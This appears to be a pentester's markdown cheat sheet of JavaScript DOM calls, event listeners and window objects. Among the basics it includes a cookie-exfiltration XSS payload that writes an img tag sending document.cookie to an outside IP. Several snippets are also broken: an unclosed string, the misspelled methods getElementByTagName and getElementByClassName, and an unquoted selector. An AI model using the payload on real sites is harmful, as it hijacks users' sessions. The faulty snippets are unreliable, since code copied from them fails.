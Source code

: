 # Document Object Model (DOM)

### Basics
```
console.log("Hello World!);

document.cookie


document.getElementById('1');

document.getElementByTagName('div');

document.getElementByClassName('list-items');

document.querySelector(#main-heading);

document.querySelectorAll('div');


document.write('something');

document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
```

### Event Listeners 
>
>element.addEventListener("click", function);
>
>element.addEventListener("mouseover", function);
>

### Window Objects

```
window.alert('1');
 
alert(prompt());

window.location = "http://127.0.0.1"

window.location.search
```
